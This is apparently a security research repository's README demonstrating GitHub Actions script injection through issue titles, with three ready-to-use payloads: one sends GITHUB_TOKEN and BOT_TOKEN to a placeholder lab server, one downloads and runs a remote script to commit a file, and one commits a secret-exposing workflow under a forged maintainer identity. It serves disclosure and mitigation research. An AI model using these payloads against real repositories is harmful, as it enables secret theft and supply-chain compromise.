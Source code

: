 # Github Actions Injection Vulnerability Demo

This repository contains several utility scripts and Github Actions we used in our research for [Github Actions injection vulnerabilities](https://cycode.com/blog/github-actions-vulnerabilities/).
We presented this talk on several occasions:
- SupplyChainSecurityCon 2022 (part of OpenSourceSummit NA) - [Github Actions Security Landscape](https://www.youtube.com/watch?v=dTrHKa9mbdQ)
- DevSecCon24 - [Github Actions Security Landscape](https://www.youtube.com/watch?v=zr4nka52Fk0)

## Article Outline

Our research blog describes how we found several popular open source projects vulnerable to [script injection attack](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#good-practices-for-mitigating-script-injection-attacks) through user-controlled input, such as Github issue title and body.
We deeply investigated this threat and tried to understand the implications of such a build compromise. We quickly understood that the consequences could be pretty disastrous:
- The attacker can exfiltrate sensitive tokens from the build service (such as AWS tokens, docker hub, etc.)
- The attacker can commit new code to the repository and cause a potential supply-chain attack on the product's users.

We also show how to mitigate such attacks and their consequences.

## Demos

As explained in the article, the demos show the possible implications of a malicious attacker that gained control over the build process.
The vulnerable workflow we'll use through the demos is [vuln](.github/workflows/vuln.yml), which will be triggered whenever a new issue is created.

### Demo 1 - Exfiltrating sensitive secrets

First, you must set up a server to listen to the exfiltrated secrets in a lab environment. You can use our https://github.com/CycodeLabs/simple-http-logger for that.

Then, change the `<LAB_URL>` parameter with your lab server URL, and create an issue with the following title:

```bash
Innocent bug" && curl -d “token=$GITHUB_TOKEN” <LAB_URL> && sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u <LAB_URL> && sleep 2 && echo "
```

This payload consists of two commands:

```bash
# Exfiltrating GITHUB_TOKEN
curl -d “token=$GITHUB_TOKEN” <LAB_URL>

# Exfiltrating BOT_TOKEN through the script that comes after
sudo docker run --rm -d -v /home/runner/work/_temp:/app/monitored cycodelabs/actionmonitor -u <LAB_URL>
```

This script uses another tool we developed - [gh-action-shell-monitor](https://github.com/CycodeLabs/gh-action-shell-monitor). This tool listens for any shell files modified in the specified directory and sends them to a designated server.
The result would be receiving the complete script on our lab server and `BOT_TOKEN`.

### Demo 2 - Committing to the repository

We can use simple git commands and commit a "malicious" file into the repository during the build process.

The issue title for the demo:

```bash
Innocent bug" && curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh && chmod +x /tmp/script.sh && /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file && echo "
```

This payload consists of the following commands:

```bash
# Fetching the commit script
curl -o /tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/scripts/commit_file.sh

chmod +x /tmp/script.sh

# Running it together with our "malicious" file
/tmp/script.sh https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/files/file_to_commit innocent_file
```

### Demo 3 - Exfiltrating repository and organization secrets

In this demo, we used the commit capability to get the repository/organization secrets that weren't necessarily defined in that specific workflow but were defined for that repository.

First, we need to set up the server in the first demo.

The issue title for the demo:

```bash
# Send as issue body because issue title is capped with character limit
" && WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0) && curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}' && echo "
```

```bash
# Fetching the workflow from our repository
WORKFLOW_CONTENT=$(curl -s https://raw.githubusercontent.com/CycodeLabs/gh-injection-vuln-demo/main/actions/expose_secrets.yml | base64 -w 0)

# Committing it to current repository
curl -X PUT -H "Authorization: Token $GITHUB_TOKEN" https://api.github.com/repos/$GITHUB_REPOSITORY/contents/.github/workflows/innocent_workflow.yml -d '{"message":"innocent commit message","committer":{"name":"Maintainer Name","email":"maintainer@gmail.com"},"content":"'"$WORKFLOW_CONTENT"'"}'
```

This payload consists of the following command:

```bash
TODO - update
```

The content is base64 encoding of the workflow we want to commit:

```yaml
TODO - update
```

So the procedure of the demo is the following:

- We inject our malicious payload into the `Vuln` workflow.
- The `Vuln` workflow invokes Github API to commit a new workflow, the `Exposing ALL Secrets` workflow.
- The `Vuln` workflow ends.
- Because of `workflow_run:`, the Github Actions service will trigger `Exposing ALL Secrets` when `Vuln` ends.
